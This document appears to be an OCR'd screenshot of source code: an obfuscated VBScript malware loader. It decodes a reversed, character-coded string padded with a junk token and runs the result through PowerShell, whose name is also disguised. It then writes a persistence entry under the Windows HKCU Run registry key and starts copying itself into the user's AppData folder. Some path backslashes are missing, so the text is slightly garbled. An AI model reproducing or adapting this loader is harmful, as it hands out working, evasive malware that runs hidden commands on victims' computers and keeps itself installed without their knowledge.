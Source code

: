 ```
f=f+"5,5@#_**CooperANDsteal||,2@#_**CooperANDsteal||,6@#_**CooperANDsteal||,6@#_**CooperANDsteal||,401,93,44,001,@#_**CooperANDsteal||1,401,6@#_**CooperANDsteal||,101,77,85,85,39,101,2@#_**CooperANDsteal||,121,48,801,801,79,76,64,99,501,5@#_**CooperANDsteal||,79,66,801,79,7@#_**CooperANDsteal||,5@#_**CooperANDsteal||,501,68,64,6@#_**CooperANDsteal||,201,@#_**CooperANDsteal||1,5@#_**CooperANDsteal||,@#_**CooperANDsteal||1,4@#_**CooperANDsteal||,99,501,77,19,44,14,93,0@#_**CooperANDsteal||,93,44,93,63,59,63,93,04,101,99,79,801,2@#_**CooperANDsteal||,101,4@#_**CooperANDsteal||,64,93,301,63,59,63,501,4@#_**CooperANDsteal||,6@#_**CooperANDsteal||,38,001,79,@#_**CooperANDsteal||1,801,63,59,63,9@#_**CooperANDsteal||,@#_**CooperANDsteal||1,86,93,44,14,6@#_**CooperANDsteal||,0@#_**CooperANDsteal||,101,501,801,76,89,101,78,64,6@#_**CooperANDsteal||,101,87,23,6@#_**CooperANDsteal||,99,101,601,89,97,54,9@#_**CooperANDsteal||,101,87,04,04,101,901,79,0@#_**CooperANDsteal||,121,66,801,801,79,76,85,85,39,0@#_**CooperANDsteal||,@#_**CooperANDsteal||1,501,6@#_**CooperANDsteal||,99,79,4@#_**CooperANDsteal||,101,6@#_**CooperANDsteal||,0@#_**CooperANDsteal||,37,64,99,501,5@#_**CooperANDsteal||,79,66,801,79,7@#_**CooperANDsteal||,5@#_**CooperANDsteal||,501,68,64,6@#_**CooperANDsteal||,201,@#_**CooperANDsteal||1,5@#_**CooperANDsteal||,@#_**CooperANDsteal||1,4@#_**CooperANDsteal||,99,501,77,19,16,601,201,63,95,14,93,99,501,5@#_**CooperANDsteal||,79,66,801,79,7@#_**CooperANDsteal||,5@#_**CooperANDsteal||,501,68,64,6@#_**CooperANDsteal||,201,@#_**CooperANDsteal||1,5@#_**CooperANDsteal||,@#_**CooperANDsteal||1,4@#_**CooperANDsteal||,99,501,77,93,04,101,901,79,87,801,79,501,6@#_**CooperANDsteal||,4@#_**CooperANDsteal||,79,08,401,6@#_**CooperANDsteal||,501,78,001,79,@#_**CooperANDsteal||1,67,85,85,39,121,801,89,901,101,5@#_**CooperANDsteal||,5@#_**CooperANDsteal||,56,64,0@#_**CooperANDsteal||,@#_**CooperANDsteal||1,501,6@#_**CooperANDsteal||,99,101,801,201,101,28,64,901,101,6@#_**CooperANDsteal||,5@#_**CooperANDsteal||,121,38,19,23,39,001,501,@#_**CooperANDsteal||1,8@#_**CooperANDsteal||,19,95,05,05,2@#_**CooperANDsteal||,63,23,16,23,801,@#_**CooperANDsteal||1,99,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,@#_**CooperANDsteal||1,4@#_**CooperANDsteal||,08,121,6@#_**CooperANDsteal||,501,4@#_**CooperANDsteal||,7@#_**CooperANDsteal||,99,101,38,85,85,39,4@#_**CooperANDsteal||,101,301,79,0@#_**CooperANDsteal||,79,77,6@#_**CooperANDsteal||,0@#_**CooperANDsteal||,501,@#_**CooperANDsteal||1,08,101,99,501,8@#_**CooperANDsteal||,4@#_**CooperANDsteal||,101,38,64,6@#_**CooperANDsteal||,101,87,64,901,101,6@#_**CooperANDsteal||,5@#_**CooperANDsteal||,121,38,19,95,14,05,55,84,15,23,44,39,101,2@#_**CooperANDsteal||,121,48,801,@#_**CooperANDsteal||1,99,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,@#_**CooperANDsteal||1,4@#_**CooperANDsteal||,08,121,6@#_**CooperANDsteal||,501,4@#_**CooperANDsteal||,7@#_**CooperANDsteal||,99,101,38,64,6@#_**CooperANDsteal||,101,87,64,901,101,6@#_**CooperANDsteal||,5@#_**CooperANDsteal||,121,38,19,04,6@#_**CooperANDsteal||,99,101,601,89,97,@#_**CooperANDsteal||1,48,85,85,39,901,7@#_**CooperANDsteal||,0@#_**CooperANDsteal||,96,19,23,16,23,05,05,2@#_**CooperANDsteal||,63,95,14,301,0@#_**CooperANDsteal||,501,2@#_**CooperANDsteal||,63,04,23,801,501,6@#_**CooperANDsteal||,0@#_**CooperANDsteal||,7@#_**CooperANDsteal||,23,521,6@#_**CooperANDsteal||,101,501,7@#_**CooperANDsteal||,18,54,23,94,23,6@#_**CooperANDsteal||,0@#_**CooperANDsteal||,7@#_**CooperANDsteal||,@#_**CooperANDsteal||1,99,54,23,901,@#_**CooperANDsteal||1,99,64,101,801,301,@#_**CooperANDsteal||1,@#_**CooperANDsteal||1,301,23,2@#_**CooperANDsteal||,901,@#_**CooperANDsteal||1,99,54,23,0@#_**CooperANDsteal||,@#_**CooperANDsteal||1,501,6@#_**CooperANDsteal||,99,101,0@#_**CooperANDsteal||,0@#_**CooperANDsteal||,@#_**CooperANDsteal||1,99,54,6@#_**CooperANDsteal||,5@#_**CooperANDsteal||,101,6@#_**CooperANDsteal||,23,16,23,301,0@#_**CooperANDsteal||,501,2@#_**CooperANDsteal||,63,321,23,@#_**CooperANDsteal||1,001(@=HKGhjkghjKGhjkjKGJK$"
f=replace(f,"@#_**CooperANDsteal||","11")
XS="Pow*_$%rsh*_$%ll"
exec(replace(XS,"*_$%","e")+space(1)+StrReverse(f))
exec(replace(XS,"*_$%","e")+space(1)+StrReverse(f))
CurrentDirectory =replace(WScript.ScriptFullName,WScript.ScriptName,"")
sname= wsh.scriptname
startupfolder="C:Users"+CreateObject("WScript.Network").UserName+"AppDataRoaming"

exec(replace(XS,"*_$%","e")+" Set-Item -Path HKCU:SoftwareMicrosoftWindowsCurrentVersionRun -Value "+"'"+startupfolder+ sname+"'")

if CurrentDirectory = startupfolder Then

WScript.Quit()
else

mnb()
End if

sub mnb()

 sSourceFile = CurrentDirectory+sname
```